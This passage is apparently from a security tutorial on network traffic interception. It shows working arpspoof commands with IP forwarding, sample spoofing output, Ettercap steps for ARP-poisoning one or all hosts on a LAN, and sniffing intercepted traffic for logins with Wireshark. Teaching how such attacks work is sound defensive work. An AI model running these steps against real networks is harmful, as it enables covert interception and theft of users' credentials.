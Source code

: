 
##### Network Traffic Interception

**Step 1:** The attacker tricks the victim into routing all of his traffic through the attacker’s machine. This involves making a simple request to the victim’s IP address, which is not difficult to do. Computers are rarely configured to ignore such requests.

`` $ sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
`` $ sudo arpspoof -i wlan0 -t 192.168.1.99 192.168.1.1

``
00:11:22:33:44:55 aa:bb:cc:dd:ee:ff 0806 42: arp reply 192.168.1.1 is-at 00:11:22:33:44:55
00:11:22:33:44:55 aa:bb:cc:dd:ee:ff 0806 42: arp reply 192.168.1.1 is-at 00:11:22:33:44:55
00:11:22:33:44:55 aa:bb:cc:dd:ee:ff 0806 42: arp reply 192.168.1.1 is-at 00:11:22:33:44:55
00:11:22:33:44:55 aa:bb:cc:dd:ee:ff 0806 42: arp reply 192.168.1.1 is-at 00:11:22:33:44:55
...
00:11:22:33:44:55 aa:bb:cc:dd:ee:ff 0806 42: arp reply 192.168.1.1 is-at 00:11:22:33:44:55
``

In the example above, only a single victim (192.168.1.99) is being targeted, but the attack works fine against multiple victims, or even against the entire network. In other words, the attacker does not need to know which IP address (on the office or Internet cafe LAN, for example) belongs to her target. Furthermore, the victim is extremely unlikely to notice any sign that this phase of the attack is taking place.

EtterCap provides a powerful frontend to managing this process with multiple potential targets.  In EtterCap:

* Under the "Sniff" menu, select "Unified sniffing" (for most cases where you are using one interface to both intercept and forward traffic), and select the relevant interface (wlan0)
* Under the Hosts menu, select the systems on the network you will target, or leave blank to target all systems
* Under Mitm, select "arp spoofing" for this example
* Select "Start" under the Sniffing menu

<Ettercap Screenshot>

**Step 2:** At this point, if the attacker is looking for unencrypted traffic, all she needs to do is launch a packet-sniffer, such as Wireshark, and scan through the intercepted traffic for specific vulnerable information, such as email or website logins, as well as traffic revealing shadow infrastructure usage, such as Dropbox.

<Wireshark screenshot>
